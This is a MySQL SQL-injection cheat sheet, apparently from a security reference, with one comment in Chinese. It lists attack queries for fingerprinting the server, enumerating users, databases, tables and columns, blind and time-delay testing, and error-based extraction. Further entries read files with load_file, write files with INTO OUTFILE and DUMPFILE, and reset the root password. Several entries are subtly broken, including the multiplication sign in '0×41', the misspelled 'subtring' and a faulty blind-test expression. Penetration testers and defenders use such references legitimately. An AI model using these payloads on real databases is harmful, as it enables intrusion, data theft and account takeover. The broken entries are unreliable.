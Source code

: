 MySQL Payload
=====================================

- Version 
    - ``SELECT @@version``
- Comment 
    - ``SELECT 1 -- comment``
    - ``SELECT 1 # comment``
    - ``SELECT /*comment*/1``
- Current User
    - ``SELECT user()``
    - ``SELECT system_user()``
- List User
    - ``SELECT user FROM mysql.user``
- Current Database
    - ``SELECT database()``
- List Database
    - ``SELECT schema_name FROM information_schema.schemata``
- List Tables
    - ``SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'``
- List Columns
    - ``SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema'``
- If
    - ``SELECT if(1=1,'foo','bar');`` return 'foo'
- Ascii
    - ``SELECT char(0×41)``
    - ``SELECT ascii('A')``
    - ``SELECT 0×414243`` => return ``ABC``
- Delay
    - ``sleep(1)``
    - ``SELECT BENCHMARK(1000000,MD5('A'))``
- Read File
    - ``select @@datadir``
    - ``select load_file('databasename/tablename.MYD')``
- Blind
    - ``ascii(subtring(str,pos,length)) & 32 == 1``
- Error Based
    - ``select count(*),(floor(rand(0)*2))x from information_schema.tables group by x;``
- Write File
    - ``union select 1,1,1 into outfile '/tmp/demo.txt'``
    - ``union select 1,1,1 into dumpfile '/tmp/demo.txt'``
    - dumpfile和outfile不同在于，outfile会在行末端写入新行，会转义换行符，如果写入二进制文件，很可能被这种特性破坏
- Change Password
    - ``mysql -uroot -e "use mysql;UPDATE user SET password=PASSWORD('newpassword') WHERE user='root';FLUSH PRIVILEGES;"``
